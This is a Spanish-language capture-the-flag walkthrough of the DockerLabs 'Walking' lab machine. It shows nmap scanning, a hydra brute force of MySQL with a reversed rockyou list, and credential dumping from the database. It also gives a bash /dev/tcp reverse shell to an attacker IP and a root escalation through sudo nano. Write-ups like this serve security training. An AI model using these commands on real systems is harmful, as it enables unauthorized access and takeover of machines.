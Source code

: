 # Máquina Walking

---------------------

Dificultad -> Easy

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack
80/tcp   open  http    syn-ack
3306/tcp open  mysql   syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada a los puertos descubiertos en el anterior escaneo.

```shell
nmap -sCV -p80 172.17.0.2 -oN targeted
________________________________________________
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 9e6a3f89de9d05d99432738d31e0a5eb (ECDSA)
|_  256 e7ef4f4a2586c955b0880a8c7903d09f (ED25519)
80/tcp   open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Web de Capybaras
3306/tcp open  mysql   MySQL 5.5.5-10.6.16-MariaDB-0ubuntu0.22.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.6.16-MariaDB-0ubuntu0.22.04.1
```

Vemos algo más de información sobre los servicios. Vemos la versión de SSH, la de Apache, y algo de información extra sobre la base de datos MySQL que corre como en la mayoría de casos por defecto en el puerto 3306.

Inspeccionaremos la página web que corre por el puerto 80:

![Pasted image 20240413135355](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/45e62bc6-8d09-43b8-9428-f9a37ec4c214)


_"**Hola capybarauser, esta es una web de capybaras. He securizado mi password, ya no se encuentra al comienzo del rockyou..., espero que nadie use el comando tac y se fije en las últimas passwords del rockyou**"_

Nos dan una pista, y es que la contraseña de **"capybarauser"** se encuentra al final del famoso diccionario **rockyou**. El comando **tac** que se menciona, permite leer y mostrar el contenido de un archivo en orden inverso. De forma que le aplicamos este comando al **rockyou** y almacenamos el resultado en un nuevo fichero que llamaré "**MiRockYou.txt**" para poder usarlo como diccionario en un ataque de fuerza bruta.

```shell
tac /usr/share/wordlists/rockyou.txt > MiRockYou.txt
```

--------------

## Explotación

Tenemos que tener cuidado con las primeras líneas del nuevo diccionario, que están corruptas, quitamos los caracteres extraños y continuamos con la fuerza bruta.
Con este nuevo diccionario realizaremos un ataque de fuerza bruta contra el puerto **3306** donde corre el servicio **MySQL**.. Lo haremos con la herramienta **hydra**.

```shell
hydra -l capybarauser -P MiRockYou.txt mysql://172.17.0.2 -t 4
----------------------------------------------------------------
[DATA] attacking mysql://172.17.0.2:3306/
[3306][mysql] host: 172.17.0.2   login: capybarauser   password: ie168
1 of 1 target successfully completed, 1 valid password found
```

Encontramos credenciales para el usuario **capybarauser:ie168**

Accedemos a la base de datos con las nuevas credenciales:

```shell
mysql -h 172.17.0.2 -P 3306 -u capybarauser -p
(ponemos la contraseña ie168)
```

Enumeraremos un poco la base de datos.

```sql
MariaDB [(none)]> SHOW DATABASES;
------------------------------------
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| pinguinasio_db     |
| sys                |
+--------------------+
```

```sql
USE pinguinasio_db;
SHOW TABLES;
-------------------------------
+--------------------------+
| Tables_in_pinguinasio_db |
+--------------------------+
| users                    |
+--------------------------+
1 row in set (0,001 sec)
```

```sql
SELECT * FROM users;
------------------------------
+----+-------+------------------+
| id | user  | password         |
+----+-------+------------------+
|  1 | mario | pinguinomolon123 |
+----+-------+------------------+
1 row in set (0,001 sec)
```

Encontramos un usuario y su contraseña: "**mario:pinguinomolon123**"
Trataremos de entrar por **SSH**.

```shell
ssh mario@172.17.0.2
```

Estamos dentro !

------------------------------
### Tratamiento de la tty

Si tenemos problemas al aplicar el tratamiento de la **tty**, lo que podemos hacer es ponernos en escucha desde una consola nueva por un puerto. Por ejemplo con **netcat**

```shell
nc -nlvp 443
```

Y nos enviamos desde la máquina víctima una reverse shell para acceder:

```shell
bash -c "bash -i >&/dev/tcp/192.168.1.37/443 0>&1" 
```

(Siendo la 192.168.1.37 mi IP de la máquina atacante)

---------------

Realizaremos un breve **tratamiento de la tty** para poder operar de forma cómoda sobre la consola. Los comandos a ejecutar:

```shell
script /dev/null -c bash 
```
(hacemos  **ctrl  +  Z**)

```shell
stty raw -echo; fg
reset xterm
stty rows 62 columns 248
export TERM=xterm
export SHELL=bash
```

Pondremos en rows y columns las columnas y filas que correspondan a la pantalla de nuestra máquina.
Una vez hecho esto podemos maniobrar con comodidad, pudiendo hacer Ctrl+L para limpiar la pantalla así como Ctrl+C.

------------
## Escalada de privilegios

Hacemos un **sudo -l** para ver si podemos ejecutar algo con privilegios de otro usuario o de root.

```shell
sudo -l
------------------
(ALL : ALL) NOPASSWD: /usr/bin/nano
```

Podemos ejecutar **nano**. Esto es crítico y podemos abusar de este para ejecutar una consola como el usuario root. Si no sabemos como, siempre podemos consultar [GTFOBins](https://gtfobins.github.io/)

```shell
sudo nano
^R^X (Ctrl+R y Ctrl+X)
reset; sh 1>&0 2>&0
```

![Pasted image 20240415220430](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/0c76c1a8-1d89-46c3-bc06-2aafe6c7b515)

Podemos hacer un **clear** para quitar el **nano** y ver bien la consola:

```shell
clear
whoami
----------------
root
```
